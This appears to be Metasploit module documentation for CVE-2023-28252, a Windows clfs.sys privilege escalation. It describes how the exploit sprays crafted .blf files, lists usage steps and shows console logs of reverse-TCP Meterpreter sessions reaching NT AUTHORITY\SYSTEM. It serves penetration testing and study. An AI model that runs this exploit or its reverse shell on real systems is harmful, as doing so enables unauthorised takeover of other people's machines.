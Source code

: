 ## Vulnerable Application

A privilege escalation vulnerability exists in the clfs.sys driver which comes installed by default on
Windows 10 21H2, Windows 11 21H2 and Windows Server 20348 operating systems. 

The clfs.sys driver contains a function CreateLogFile that is used to create
open and edit '*.blf' (base log format) files. Inside a .blf file there are multiple blocks of data which
contain checksums to verify the integrity of the .blf file and to ensure the file looks and acts like a
.blf file. However, these files can be edited with CreateFileA or with fopen and then modified with
WriteFile or fwrite respectively in order to change the contents of the file and update their checksums accordingly.

This exploit makes use to two different kinds of specially crafted .blf files that are edited using the technique
mentioned above. There are multiple spray .blf files. The spray .blf files are specially crafted to initiate an out of
bounds read which reads from a contiguous block of memory. The block of memory it reads from contains a read-write pipe
that points to the address of the second type of .blf file - the trigger .blf file. The trigger .blf file is specially 
crafted read the SYSTEM token and write it in the process of the exploit to achieve the local privilege escalation.

The exploits creates a controlled memory space by first looping over the CreatePipe function to
to create thousands of read-write pipes (which take up 0x90 bytes of memory). It then releases a certain number of
pipes from memory and calls CreateLogFile to open the pre-existing spray .blf files which when being opened fill the
0x90 byte gaps created by the deallocation of the pipes in memory, creating the controlled memory space.

This is a very brief and high overview description of what the exploit is actually doing. For a more detailed and in
depth analysis please refer to the following [reference](https://github.com/fortra/CVE-2023-28252).

### Installation And Setup
Windows 11 versions 21H2 are vulnerable out of the box.
This exploit module has been tested on Windows 11 versions 21H2 build 22000.

## Options  

## Verification Steps

1. Start msfconsole
1. Get a Meterpreter session on a vulnerable host
1. Do: `use windows/local/cve_2023_28252_clfs_driver`
1. Set the `SESSION` and `PAYLOAD` options
1. Do: `run`
1. You should get a privileged session.

## Scenarios

### Windows Server 2022 Build 20348 x64
```
msf6 exploit(multi/handler) > use windows/local/cve_2023_28252_clfs_driver
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2023_28252_clfs_driver) > run

[*] Started reverse TCP handler on 172.16.199.1:4443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is running windows version: 10.0.20348.0 which has a vulnerable version of clfs.sys installed by default
[*] Launching msiexec to host the DLL...
[+] Process 6080 launched.
[*] Reflectively injecting the DLL into 6080...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200774 bytes) to 172.16.199.134
[*] Meterpreter session 11 opened (172.16.199.1:4443 -> 172.16.199.134:49864) at 2023-07-31 13:44:35 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-2EEL7BRDUD8
OS              : Windows 2016+ (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

### Windows 11 Version 21H2 Build 22000 x64
```
msf6 exploit(windows/local/cve_2023_28252_clfs_driver) > sessions -i 1
[*] Starting interaction with 1...
msf6 exploit(windows/local/cve_2023_28252_clfs_driver) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 172.16.199.1:4443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is running windows version: 10.0.22000.0 which has a vulnerable version of clfs.sys installed by default
[*] Checking compatibility
[*] Launching netsh to host the DLL...
[+] Process 9124 launched.
[*] Reflectively injecting the DLL into 9124...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200774 bytes) to 172.16.199.132
[*] Meterpreter session 4 opened (172.16.199.1:4443 -> 172.16.199.132:49894) at 2023-07-31 11:24:01 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : MSFDEVICE
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### Windows 10 Version 19042 x64
```
msf6 exploit(multi/handler) > use windows/local/cve_2023_28252_clfs_driver
msf6 exploit(windows/local/cve_2023_28252_clfs_driver) > run

[*] Started reverse TCP handler on 172.16.199.1:4443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is running windows version: 10.0.19042.0 which has a vulnerable version of clfs.sys installed by default
[*] Launching netsh to host the DLL...
[+] Process 4888 launched.
[*] Reflectively injecting the DLL into 4888...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200774 bytes) to 172.16.199.131
[*] Meterpreter session 13 opened (172.16.199.1:4443 -> 172.16.199.131:49840) at 2023-07-31 14:34:37 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-8ATHH6O
OS              : Windows 10 (10.0 Build 19042).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```